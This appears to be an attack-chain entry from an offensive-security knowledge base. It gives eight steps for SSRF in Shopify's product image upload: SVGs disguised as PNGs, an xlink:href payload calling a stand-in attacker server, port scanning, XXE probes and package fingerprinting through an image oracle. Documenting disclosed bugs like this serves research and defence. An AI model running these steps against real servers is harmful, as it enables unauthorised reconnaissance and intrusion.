

---
tags:
  - ssrf
  - svg-upload
  - port-scanning
  - server-fingerprinting
  - shopify
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
commands: []
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
procedures:
  - '[[procedures/Disguise-SVG-as-PNG-for-Upload]]'
  - '[[procedures/Upload-Malicious-SVG-to-Product-Endpoint]]'
  - '[[procedures/Observe-SSRF-Interaction-on-External-Server]]'
  - '[[procedures/Test-Supported-Protocols-in-SVG-xlink-href]]'
  - '[[procedures/Perform-Port-Scanning-via-SSRF]]'
  - '[[procedures/Test-XXE-and-DoS-in-SVG-Entities]]'
  - '[[procedures/Implement-Is-Picture-Present-Oracle-for-Local-Images]]'
  - '[[procedures/Fingerprint-Server-Using-Known-Local-Image-Paths]]'
step_count: 8
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
  - '[[File and Directory Discovery]]'
description: >-
  Exploits SSRF in Shopify's product image upload by disguising SVG files as
  PNGs, triggering external HTTP/FTP requests for reconnaissance, port scanning,
  and server fingerprinting via an image presence oracle.
skill_level: intermediate
impact_level: high
id: df120f4e-1935-4f2f-ad33-463698f5fd7d
created_at: '2025-12-14T03:46:14.396Z'
updated_at: '2025-12-14T03:46:14.396Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
  - '[[File and Directory Discovery]]'
---
# Shopify SSRF via Disguised SVG Upload for Port Scanning and Server Fingerprinting

Multi-stage attack chain demonstrating SSRF exploitation in Shopify's image upload feature, allowing arbitrary external requests, port scanning, and server fingerprinting without successful file upload.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- HTTP client (e.g., curl or Burp Suite for request modification)
- Attacker-controlled server to host external resources and log interactions

### Target Environment

- Shopify admin panel access (authenticated session)
- Web platform with Linux backend (inferred from package paths)
- Open outbound HTTP/FTP from target server

### Initial Access Requirements

- Valid Shopify store admin credentials
- Network access to upload endpoint (/admin/products/{id}/images.json)
- No prior compromise needed beyond authentication

## Detailed Attack Procedures

### Step 1: Disguise SVG as PNG for Upload
procedure: [[procedures/Disguise-SVG-as-PNG-for-Upload]]

**Objective**: Create a malicious SVG payload that evades file type checks by mimicking a PNG file.

**Instructions**: Construct an SVG file with external resource reference. Save as payload.svg, then rename to payload.png for upload. Include <image xlink:href="http://attacker-server/image.jpeg" /> in the SVG body.

**Expected Output**: Valid SVG file disguised as PNG, ready for multipart upload.

**Success Indicators**:
- File parses as SVG with external URL
- Filename ends in .png

### Step 2: Upload Malicious SVG to Product Endpoint
procedure: [[procedures/Upload-Malicious-SVG-to-Product-Endpoint]]

**Objective**: Submit the disguised file to trigger server-side processing and external request.

**Instructions**: Use an HTTP POST to /admin/products/{product_id}/images.json with multipart/form-data. Set Content-Type to image/png for the file part, but embed SVG content.

**Expected Output**: Server processes SVG before rejecting upload.

**Success Indicators**:
- Request sent successfully
- 422 response received (upload rejected, but processing occurred)

### Step 3: Observe SSRF Interaction on External Server
procedure: [[procedures/Observe-SSRF-Interaction-on-External-Server]]

**Objective**: Confirm SSRF by detecting incoming requests from the target server.

**Instructions**: Monitor attacker server logs for GET requests to the referenced URL (e.g., /image.jpeg) with headers like Host: attacker-server and Accept-Encoding: gzip.

**Expected Output**: Log entry showing HTTP/1.0 GET from Shopify server IP.

**Success Indicators**:
- External request received despite 422 response
- Confirms SSRF trigger

### Step 4: Test Supported Protocols in SVG xlink:href
procedure: [[procedures/Test-Supported-Protocols-in-SVG-xlink-href]]

**Objective**: Identify which URI schemes trigger SSRF (limited to HTTP and FTP).

**Instructions**: Modify the xlink:href in the SVG to use different protocols (e.g., http://, ftp://, file://) from W3C URI schemes list, then re-upload and observe interactions.

**Expected Output**: Only http:// and ftp:// generate external requests.

**Success Indicators**:
- HTTP/FTP interactions logged
- Other protocols (e.g., gopher://) ignored

### Step 5: Perform Port Scanning via SSRF
procedure: [[procedures/Perform-Port-Scanning-via-SSRF]]

**Objective**: Scan target server's outbound connectivity to all TCP ports except filtered ones.

**Instructions**: Update SVG with multiple <image> elements pointing to attacker-server:{port}/test.png for ports 1-65535. Upload and monitor for SYN packets or connection attempts.

**Expected Output**: TCP SYN received on all ports except 113 (outbound filtered).

**Success Indicators**:
- Connections to 65534 ports
- Port 113 blocked

### Step 6: Test XXE and DoS in SVG Entities
procedure: [[procedures/Test-XXE-and-DoS-in-SVG-Entities]]

**Objective**: Probe for XML vulnerabilities like XXE or entity expansion DoS.

**Instructions**: Embed DOCTYPE with internal entity (e.g., <!ENTITY xml "eXtensible Markup Language">) and reference &xml; in <text>. Test external DTD or Billion Laughs, but expect restrictions.

**Expected Output**: Static entities resolve; no SYSTEM entities or DoS.

**Success Indicators**:
- Internal entity expansion
- No external parsing or crashes

### Step 7: Implement Is-Picture-Present-Oracle for Local Images
procedure: [[procedures/Implement-Is-Picture-Present-Oracle-for-Local-Images]]

**Objective**: Detect presence of local image files via conditional external requests.

**Instructions**: Use two <image> tags: first to local path (e.g., /lib/plymouth/ubuntu_logo.png), second to http://attacker-server:999/example.png. If first is valid, second triggers.

**Expected Output**: External request only if local image exists and is valid.

**Success Indicators**:
- Request to attacker server indicates local image presence
- Limited to images, not arbitrary files

### Step 8: Fingerprint Server Using Known Local Image Paths
procedure: [[procedures/Fingerprint-Server-Using-Known-Local-Image-Paths]]

**Objective**: Identify installed software packages via oracle on specific paths.

**Instructions**: Test paths like /usr/share/doc/libpng12-dev/examples/pngtest.png, /usr/share/doc/libfreetype6/tutorial/metrics.png. Upload SVG with these in oracle setup and observe.

**Expected Output**: Requests confirm presence of libpng12-dev, libfreetype6, libexpat1-dev.

**Success Indicators**:
- Specific packages fingerprinted
- Reveals Linux distro details indirectly

## Attack Chain Summary

### Key Achievements

1. Triggered SSRF despite upload rejection, enabling external interactions.
2. Scanned all TCP ports except 113 for outbound filtering insights.
3. Fingerprinted server packages using image oracle without direct file read.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01*
